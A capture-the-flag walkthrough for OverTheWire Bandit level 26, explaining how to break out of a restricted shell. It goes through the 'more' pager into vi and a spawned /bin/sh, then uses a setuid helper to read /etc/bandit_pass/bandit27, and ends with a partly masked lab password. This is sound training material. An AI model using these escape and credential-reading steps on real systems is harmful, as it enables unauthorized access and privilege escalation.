





# Bandit Level 26 → Level 27

## Level Goal / Objective

Good job getting a shell! Now hurry and grab the password for bandit27!

🔗 https://overthewire.org/wargames/bandit/bandit26.html

## Commands You May Need

```text
ssh , more , vi , ls , cat
```

## Concept Focus

* Escaping restricted shells
* Abusing pager programs (`more`)
* Using vi to spawn a shell
* Privilege escalation via helper binaries

## Approach

### 1. Connect to the Level

Use the SSH private key from the previous level:

```bash
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
```

Ensure the key has correct permissions:

```bash
chmod 600 bandit26.sshkey
```

---

### 2. Trigger the Restricted Shell

Upon login, the session is limited and opens using the `more` program.

---

### 3. Escape into vi

Shrink the terminal to trigger the `--More--` prompt, then press:

```text
v
```

This opens the file in `vi`.

---

### 4. Spawn a Shell

From within `vi`, execute:

```bash
:terminal /bin/sh
```

This spawns an interactive shell.

---

### 5. Retrieve the Password

List files and locate the helper binary:

```bash
ls
```

Use the provided binary to read the next password:

```bash
./bandit27-do cat /etc/bandit_pass/bandit27
```

---

## Walkthrough (Screenshots)











---

## Password for Level 27

```text
upsNCc7v...e1MowGB
```

---

## Key Takeaways

* Pager programs like `more` can be abused to escape restricted environments
* `vi` can be leveraged to spawn shells
* Terminal behavior (like resizing) can influence program flow
* Helper binaries can provide privilege escalation paths
